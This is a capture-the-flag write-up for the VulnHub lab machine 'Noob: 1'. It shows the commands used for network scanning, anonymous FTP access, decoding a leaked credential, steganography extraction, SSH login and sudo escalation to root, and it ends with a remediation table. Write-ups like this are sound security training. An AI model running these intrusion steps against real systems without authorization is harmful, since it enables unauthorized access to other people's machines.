









# Noob: 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.134 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**Noob: 1** is a Beginner VulnHub machine built around anonymous FTP credential leakage, a navigation link that disguised an archive download as a normal page, and two layers of steganography chained together with a ROT13-encoded final credential. Anonymous FTP exposed a base64-encoded login for a web application. Once authenticated, a visible "About Us" navigation link turned out to point to an archive rather than a page, containing two nearly identical images and a file literally named `sudo`. Extracting hidden data from the first image with steghide (empty passphrase) produced a hint about rotating letters; separately, the `sudo` filename itself suggested trying that word as the passphrase for the second image, which produced a ROT13-encoded string that decoded to valid SSH credentials. From there, unrestricted sudo access led straight to root.

**Attack chain:** Nmap recon → Anonymous FTP (credential leak) → Web login → Disguised download link → Steganography (chained, two images) → ROT13 decode → SSH login → Unrestricted sudo → Root

## 1. Reconnaissance

```
sudo arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ba:10:0a, IPv4: 192.168.32.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.32.1    00:50:56:c0:00:01      VMware, Inc.
192.168.32.134  00:0c:29:4a:56:1f      VMware, Inc.
192.168.32.254  00:50:56:e7:4d:8a      VMware, Inc.
3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.998 seconds (128.13 hosts/sec). 3 responded
```



```
ping -c 1 192.168.32.134
PING 192.168.32.134 (192.168.32.134) 56(84) bytes of data.
64 bytes from 192.168.32.134: icmp_seq=1 ttl=64 time=0.358 ms

--- 192.168.32.134 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.358/0.358/0.358/0.000 ms
```



```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.134
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
|_-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.29 (Ubuntu)
55077/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
```

Three services exposed: FTP with anonymous login allowed, a web login page, and SSH on a non-standard port.

## 2. FTP Enumeration

The FTP service allowed anonymous login and listed two files.

```
ftp 192.168.32.134
Name (192.168.32.134:Oryx): anonymous
Password:
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
ftp> mget *
```

`welcome` only contained a generic greeting message. `cred.txt` held a base64 string:

```
cat cred.txt
Y2hhbXA6cGFzc3dvcmQ=

echo "Y2hhbXA6cGFzc3dvcmQ=" | base64 -d
champ:password
```

## 3. Web Login

The credentials `champ:password` were valid on the port 80 login form.



After authenticating, the page displayed a "CTF Machine" banner with a visible navigation bar (Home / About Us / Sign Out). Viewing the page's HTML source showed that "About Us" didn't point to a page — it pointed directly to an archive:


```
<li><a href="downloads.rar">About Us</a></li>
```

Downloading and extracting the archive produced three files:

```
unrar e downloads.rar
Extracting  funny.jpg
Extracting  funny.bmp
Extracting  sudo
```

The file literally named `sudo` contained a nudge toward its own filename:

```
cat sudo
Did you notice the file name? Isn't is interesting?
```

## 4. Steganography

Both images looked identical when opened normally, with no visible clue. Extracting `funny.jpg` with steghide using an empty passphrase succeeded and produced a hint file:

```
steghide extract -sf funny.jpg
Enter passphrase:
wrote extracted data to "hint.py".

cat hint.py
This is_not a python file but you are revolving around.
well, try_ to rotate some words too.
```

The hint referenced rotating letters — relevant to decoding the final credential later, not to this passphrase. The actual clue for this step was the earlier nudge about the `sudo` filename itself, which suggested trying that word as the passphrase for the second image:

```
steghide extract -sf funny.bmp
Enter passphrase: sudo
wrote extracted data to "user.txt".

cat user.txt
jgs:guvf bar vf n fvzcyr bar
```

The extracted string was ROT13-encoded. Decoding it in CyberChef revealed valid credentials:



```
wtf:this one is a simple one
```

## 5. Privilege Escalation

```
ssh wtf@192.168.32.134 -p 55077
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)
```



```
sudo -l
User wtf may run the following commands on wtf:
    (ALL : ALL) ALL
```

Unrestricted sudo access allowed an immediate escalation to root.

```
sudo su root
root@wtf:/home/wtf#
```



A `flag.txt` file was found in `/home/rooot` — a decoy directory whose name mimics `root` — containing a message hinting that the real flag was elsewhere:



The actual root flag was found in the real root home directory, `root.txt`:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP enabled, exposing a base64-encoded credential in a world-readable file | Disable anonymous FTP access; never store credentials, even encoded, in publicly accessible file shares |
| The "About Us" navigation link was disguised to point directly at a downloadable archive instead of an actual page, exposing sensitive files | Ensure navigation links match their expected content type; don't serve raw archives through links styled as ordinary pages |
| SSH credentials hidden behind weak, guessable steganography passphrases (empty, then the literal string "sudo") and simple ROT13 encoding | Never rely on obfuscation as a substitute for real authentication controls; store credentials in a secrets manager, not embedded in image files |
| User `wtf` granted unrestricted `(ALL : ALL) ALL` sudo rights | Apply least privilege: grant sudo only for the specific commands a user needs, not blanket `ALL` |
